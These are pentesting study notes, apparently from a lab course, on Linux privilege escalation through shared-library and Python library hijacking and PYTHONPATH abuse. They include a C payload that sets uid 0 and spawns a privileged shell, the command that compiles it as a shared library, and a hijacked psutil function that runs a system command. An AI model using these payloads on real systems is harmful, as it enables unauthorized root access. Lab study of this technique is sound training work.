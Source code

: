 - Exploit : 
```c
#include<stdio.h>
#include<stdlib.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
} 
```

- Compile:
```sh
gcc src.c -fPIC -shared -o /development/libshared.so
```

 **Python Library Hijacking**
#Python_Hijacking

```sh
pip3 show psutil #misconfigure lib psutil
```

- Exploit:
```python
#!/usr/bin/env python3

import os

def virtual_memory():
    os.system('id')
```

**PYTHONPATH Environment Variable**

In the previous section, we touched upon the term `PYTHONPATH`, however, didn't fully explain it's use and importance regarding the functionality of Python. `PYTHONPATH` is an environment variable that indicates what directory (or directories) Python can search for modules to import. This is important as if a user is allowed to manipulate and set this variable while running the python binary, they can effectively redirect Python's search functionality to a `user-defined` location when it comes time to import modules. We can see if we have the permissions to set environment variables for the python binary by checking our `sudo` permissions:

- Checking sudo permissions

```sh
sudo -l 

Matching Defaults entries for htb-student on ACADEMY-LPENIX:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on ACADEMY-LPENIX:
    (ALL : ALL) SETENV: NOPASSWD: /usr/bin/python3
```
